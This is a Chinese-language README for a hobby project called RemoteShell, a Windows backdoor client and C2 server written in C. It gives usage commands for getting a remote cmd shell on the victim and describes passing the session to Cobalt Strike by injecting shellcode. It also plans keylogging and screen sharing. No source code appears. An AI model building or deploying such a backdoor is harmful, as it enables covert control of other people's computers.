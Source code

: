 # RemoteShell
这个项目是我学习C的windowsAPI和网络编程时完成的一个小项目。 在客户端上运行后门之后，服务器上的攻击者可以获得客户端计算机的shell并执行命令,同时可以将该shell派生至Cobalt Strike进行后利用。

## Usage

**C2Client:**

```
C2Client.exe 192.168.1.2             #192.168.1.2为服务端ip
```

**C2Server:**

```
C2Server.exe
```

连接后如下图所示，左图为服务端(控制端)，右图为客户端。

![](1.png)

服务端输入shell进入服务端

![](2.png)

输入exit退出当前模式

![](3.png)

输入SpawnCS将shell派生至Cobalt Strike

这里要输入派生的shellcode长度和shellcode字符串，回车后在CS服务端即可收到弹回的shell，目前支持x86和x64位CS的shellcode。MSF的shellcode格式和CS不同，需要重新解析，后续会开发出来。

![](4.png)

![](5.png)

**PS:**

BUG1：该项目的shell功能采用windows管道传输CreateProcess创建的cmd进程的返回值，有些命令会产生一些bug(如net share等)。后续会修改shell执行的实现代码。

BUG2:在执行SpawnCS后想通过exit之后继续执行cmd的shell时会发现无法执行shell命令了，这是因为客户端的在执行CS的shellcode时执行了WaitForSingleObject(hThread, INFINITE)。所以会一直阻塞，后面准备把执行shellcode的一大块函数已一个线程启动，修改这个bug。

后续会考虑在项目中加入键盘监听、dll自加载、屏幕共享等功能。最近一边写python web一边写c有点顶不住......等稍微闲下来后会及时更新。

